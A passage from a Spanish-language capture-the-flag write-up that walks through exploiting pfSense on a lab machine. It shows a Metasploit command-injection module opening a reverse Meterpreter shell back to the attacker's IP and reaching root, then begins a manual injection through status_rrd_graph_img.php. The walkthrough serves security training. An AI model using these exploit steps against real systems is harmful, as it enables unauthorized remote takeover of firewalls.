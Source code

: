 * Usa el módulo número 2:
```bash
msf6 > use exploit/unix/http/pfsense_graph_injection_exec
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(unix/http/pfsense_graph_injection_exec) >
```

* Configura el módulo:
```bash
msf6 exploit(unix/http/pfsense_graph_injection_exec) > set RHOSTS 10.10.10.60
RHOSTS => 10.10.10.60
msf6 exploit(unix/http/pfsense_graph_injection_exec) > set LHOST Tu_IP
LHOST => Tu_IP
msf6 exploit(unix/http/pfsense_graph_injection_exec) > set USERNAME rohit
USERNAME => rohit
```

* Ejecuta el módulo:
```bash
msf6 exploit(unix/http/pfsense_graph_injection_exec) > exploit
.
[*] Started reverse TCP handler on Tu_IP:4444 
[*] Detected pfSense 2.1.3-RELEASE, uploading intial payload
[*] Payload uploaded successfully, executing
[*] Sending stage (39927 bytes) to 10.10.10.60
[+] Deleted jMWBmhjO
[*] Meterpreter session 1 opened (Tu_IP:4444 -> 10.10.10.60:45246)
.
meterpreter > sysinfo
Computer    : pfSense.localdomain
OS          : FreeBSD pfSense.localdomain 8.3-RELEASE-p16 FreeBSD 8.3-RELEASE-p16 #0: Thu May  1 16:19:14 EDT 2014     root@pf2_1_1_amd64.pfsense.org:/usr/obj.amd64/usr/pfSensesrc/src/sys/pfSense_SMP.8 amd64
Meterpreter : php/freebsd
meterpreter > shell
Process 16138 created.
Channel 0 created.
whoami
root
```
Listo, ganamos acceso con **Metasploit**.

<h2 id="PruebaExp4">Inyectando Comandos en status_rrd_graph_img.php de pfSense</h2>

Existe un blog que explica como inyectar comandos en un **archivo PHP** de **pfSense**, te lo comparto:

* https://www.proteansec.com/linux/pfsense-vulnerabilities-part-2-command-injection/

De acuerdo al blog, nosotros podemos usar el **archivo status_rrd_graph_img.php** para inyectar comandos, dentro de ese script, la variable **exec()** es la que presenta la vulnerabilidad, entonces, según el blog podemos usar el **parámetro queues** para inyectar nuestro comando, dentro del **parámetro GET database**. 

Vamos a tratar de inyectar un comando de prueba, siguiendo los pasos que menciona el blog:
